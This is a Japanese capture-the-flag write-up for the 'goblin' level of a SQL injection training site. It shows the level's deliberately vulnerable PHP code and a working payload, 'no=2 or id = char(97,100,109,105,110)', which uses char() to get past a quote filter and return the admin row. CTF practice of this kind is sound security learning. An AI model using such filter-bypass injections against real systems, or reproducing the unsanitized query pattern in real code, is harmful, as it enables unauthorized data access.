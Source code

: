 # goblin

## answer

```
https://los.eagle-jump.org/goblin_5559aacf2617d21ebb6efe907b7dded8.php?no=2 or id = char(97,100,109,105,110)
```

## problem

```
query : select id from prob_goblin where id='guest' and no=

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```

## memo

これも問題を解く上ではきちんとコードだけ読めば一発でいけそうだが、私は紆余曲折するしここには紆余曲折も載せる。てゆうか解きながら書いてる。

てことで考える前に```?no=aaa```とかで試してみる。

```query : select id from prob_goblin where id='guest' and no=aaa```となった。まあそうか。


コードを読んでいく。

「prob」or「_」or「\.」or「\(\)」、「\\」、「"」、「`」これらが正規表現にマッチしたら、exit。

動きとしては、id=guestかつno='活用'のときのselectで値が引っかかったときにquery resultに何かしらの値が入る。

```if($result['id'] == 'admin') solve("goblin");```

とあるので、ログインが成功したあとでもDBから返ってきたidがadminになったときに問題が解ける。

ここで、UNION とかで検索結果を和集合にしたらいいんじゃないかと予想する。

```
select id from prob_goblin where id='guest' and no=aaa union select id from prob_goblin where id='admin'
```


このまま実行しようとするのでNo Quotesが出そうなので書き換えを考える。
'がフィルターされているときは"で置き換えるのがセオリーらしいが、"もフィルターされているのでどうしようかと悩む。

そこで、adminという文字列のASCII値をchar()関数で戻しながらexploitに注入する方向で考えてみる。

adminのASCII値を調べて条件に組み込む。

```
https://los.eagle-jump.org/goblin_5559aacf2617d21ebb6efe907b7dded8.php?no=aaa union select id from prob_goblin where id = char(97, 100, 109, 105, 110)
```

を試してみると`No Hack ~_~`とでた。
`prob`とアンダースコアだ。笑 なぜ気が付かなかったんだろう。。。

そもそもunion句にする必要ないなとここらへんで気が付きました。

```
select id from prob_goblin where id='guest' and no=aaa or id='admin'
```

気を取り直してこのクエリを完成形で目指してエクスプロイトを考えたい。

```
https://los.eagle-jump.org/goblin_5559aacf2617d21ebb6efe907b7dded8.php?no=2 or id = char(97,100,109,105,110)
```

できた。


## references

- [preg_match | php manual](https://www.php.net/manual/ja/function.preg-match.php)

- [mysql_fetch_array | php manual](https://www.php.net/manual/ja/function.mysql-fetch-array.php)

- [mysql_query | php manual](https://www.php.net/manual/ja/function.mysql-query.php)

- [highlight_file | php manual](https://www.php.net/manual/ja/function.highlight-file.php)

- [BSides Delhi CTF 2018 Write up | こんとろーるしーこんとろーるぶい](https://graneed.hatenablog.com/entry/2018/10/26/232304)

- [ASCIIコード表 | TOMOJI blog](http://www9.plala.or.jp/sgwr-t/c_sub/ascii.html)

- [char and varchar type | my sql manual](https://dev.mysql.com/doc/refman/5.6/ja/char.html)